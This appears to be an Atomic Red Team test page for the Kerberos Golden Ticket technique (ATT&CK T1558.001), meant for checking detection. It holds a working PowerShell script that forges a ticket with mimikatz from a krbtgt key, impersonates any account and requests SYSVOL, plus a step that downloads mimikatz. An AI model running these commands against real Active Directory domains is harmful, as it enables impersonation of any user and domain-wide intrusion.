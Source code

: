 # T1558.001 - Golden Ticket
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1558/001)
<blockquote>Adversaries who have the KRBTGT account password hash may forge Kerberos ticket-granting tickets (TGT), also known as a golden ticket.(Citation: AdSecurity Kerberos GT Aug 2015) Golden tickets enable adversaries to generate authentication material for any account in Active Directory.(Citation: CERT-EU Golden Ticket Protection) 

Using a golden ticket, adversaries are then able to request ticket granting service (TGS) tickets, which enable access to specific resources. Golden tickets require adversaries to interact with the Key Distribution Center (KDC) in order to obtain TGS.(Citation: ADSecurity Detecting Forged Tickets)

The KDC service runs all on domain controllers that are part of an Active Directory domain. KRBTGT is the Kerberos Key Distribution Center (KDC) service account and is responsible for encrypting and signing all Kerberos tickets.(Citation: ADSecurity Kerberos and KRBTGT) The KRBTGT password hash may be obtained using [OS Credential Dumping](https://attack.mitre.org/techniques/T1003) and privileged access to a domain controller.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Crafting golden tickets with mimikatz](#atomic-test-1---crafting-golden-tickets-with-mimikatz)


<br/>

## Atomic Test #1 - Crafting golden tickets with mimikatz

auto_generated_guid: 9726592a-dabc-4d4d-81cd-44070008b3af

Once the hash of the special krbtgt user is retrieved it is possible to craft Kerberos Ticket Granting Ticket impersonating any user in the domain.
This test crafts a Golden Ticket and then performs an SMB request with it for the SYSVOL share, thus triggering a service ticket request (event ID 4769).
The generated ticket is injected in a new empty Windows session and discarded after, so it does not pollute the current Windows session.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain_sid | SID of the targeted domain, if you keep default it will automatically get the current domain SID | string | S-1-5-21-DEFAULT|
| domain | Targeted domain FQDN | string | example.com|
| account | Account to impersonate | string | goldenticketfakeuser|
| krbtgt_aes256_key | Krbtgt AES256 key | string | b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9|
| mimikatz_path | Mimikatz windows executable | path | $env:TEMP&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Remove-Item $env:TEMP\golden.bat -ErrorAction Ignore
Remove-Item $env:TEMP\golden.txt -ErrorAction Ignore

# get current domain SID if default was used
$domain_sid = "#{domain_sid}"
If ($domain_sid -Match "DEFAULT") {
  # code from https://www.sevecek.com/EnglishPages/Lists/Posts/Post.aspx?ID=60
  $domain = gwmi Win32_ComputerSystem | Select -Expand Domain
  $krbtgtSID = (New-Object Security.Principal.NTAccount $domain\krbtgt).Translate([Security.Principal.SecurityIdentifier]).Value
  $domain_sid = $krbtgtSID.SubString(0, $krbtgtSID.LastIndexOf('-'))
}

# create batch file with commands to run in a separate "runas /netonly" session
# so we don't purge Kerberos ticket from the current Windows session
# its output goes to golden.txt temp file, because we cannot capture "runas /netonly" output otherwise
@"
>%TEMP%\golden.txt 2>&1 (
  echo Purge existing tickets and create golden ticket:
  klist purge
  #{mimikatz_path} "kerberos::golden /domain:#{domain} /sid:DOMAIN_SID /aes256:#{krbtgt_aes256_key} /user:#{account} /ptt" "exit"

  echo.
  echo Requesting SYSVOL:
  dir \\#{domain}\SYSVOL
  
  echo.
  echo Tickets after requesting SYSVOL:
  klist

  echo.
  echo End of Golden Ticket attack
)
"@ -Replace "DOMAIN_SID", $domain_sid | Out-File -Encoding OEM $env:TEMP\golden.bat

# run batch file in a new empty session (password and username do not matter)
echo "foo" | runas /netonly /user:fake "$env:TEMP\golden.bat" | Out-Null

# wait until the output file has logged the entire attack
do {
  Start-Sleep 1 # wait a bit so the output file has time to be created
  Get-Content -Path "$env:TEMP\golden.txt" -Wait | ForEach-Object {
    if ($_ -match 'End of Golden Ticket attack') { break } 
  }
} while ($false) # dummy loop so that 'break' can be used

# show output from new empty session
Get-Content $env:TEMP\golden.txt

# cleanup temp files
Remove-Item $env:TEMP\golden.bat -ErrorAction Ignore
Remove-Item $env:TEMP\golden.txt -ErrorAction Ignore
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
Invoke-WebRequest "https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200918-fix/mimikatz_trunk.zip" -OutFile "$env:TEMP\mimikatz.zip"
Expand-Archive $env:TEMP\mimikatz.zip $env:TEMP\mimikatz -Force
New-Item -ItemType Directory (Split-Path $mimikatz_path) -Force | Out-Null
Move-Item $env:TEMP\mimikatz\x64\mimikatz.exe $mimikatz_path -Force
```




<br/>
